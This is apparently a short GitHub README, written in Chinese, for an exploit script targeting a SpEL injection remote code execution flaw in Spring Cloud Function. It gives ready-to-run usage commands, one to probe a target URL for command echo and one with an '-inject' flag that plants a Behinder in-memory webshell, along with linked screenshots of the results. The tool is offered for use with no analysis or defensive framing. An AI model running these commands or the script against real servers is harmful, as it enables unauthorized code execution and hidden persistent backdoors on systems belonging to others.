 # -Spring-cloud-function-SpEL-RCE
针对specl注入进行回显和内存马注入exp
# 使用
回显探测
python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/
<img width="790" alt="image" src="https://user-images.githubusercontent.com/38367493/165485812-a5e12b13-ce52-4b1b-bd76-17d1910bb602.png">
注入冰蝎
python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/ -inject
<img width="773" alt="image" src="https://user-images.githubusercontent.com/38367493/165486095-87938c34-b3b2-43f3-a341-17ef606bd448.png">
<img width="1000" alt="image" src="https://user-images.githubusercontent.com/38367493/165486771-01e3ea5b-dbd6-4e14-9559-fa24483faa59.png">

